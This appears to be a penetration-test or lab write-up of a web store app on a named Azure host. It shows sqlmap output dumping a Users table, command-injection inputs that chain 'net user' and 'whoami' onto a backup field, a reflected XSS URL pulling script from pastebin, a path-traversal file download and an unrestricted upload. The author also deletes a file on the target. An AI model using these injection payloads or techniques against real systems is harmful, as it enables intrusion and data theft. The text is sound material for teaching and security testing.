 ```bash!

[11:15:44] [INFO] table 'StoreApp.dbo.Users' dumped to CSV file '/root/.local/share/sqlmap/output/digiserver2.eastus.cloudapp.azure.com/dump/StoreApp/Users.csv'
[11:15:44] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 308 times
[11:15:44] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/digiserver2.eastus.cloudapp.azure.com'

```

### Command Injection:
Entry Point(無須Admin): 
http://digiserver2.eastus.cloudapp.azure.com/store/Admin/Backup

取得Dir:
![](https://i.imgur.com/XOuQl0v.png)
* 那個`DLEMe.txt`很欠刪，所以就刪了

Root Dir:
`test && dir ..`

User Enum:
```cmd!
test && net user && echo "-" && whoami
```
```cmd!
Finished!
User accounts for \\DIGISERVER2
-------------------------------------------------------------------------------
digiserver2 Guest
user1 user2 user3
The command completed successfully.
"-"
digiserver2\digiserver2
```

### XSS: Reflected
http://digiserver2.eastus.cloudapp.azure.com/store/Product/Detail?ProductID=1&url=https://pastebin.com/raw/spyupYdc

## A05:2021 – 安全設定缺陷
### File Download
* Can download file from any place
http://digiserver2.eastus.cloudapp.azure.com/store/FileDownload/Download?filePath=~/App_Data/backup.bat

### File Upload
* Can upload any type of file
http://digiserver2.eastus.cloudapp.azure.com/store/Admin/Create
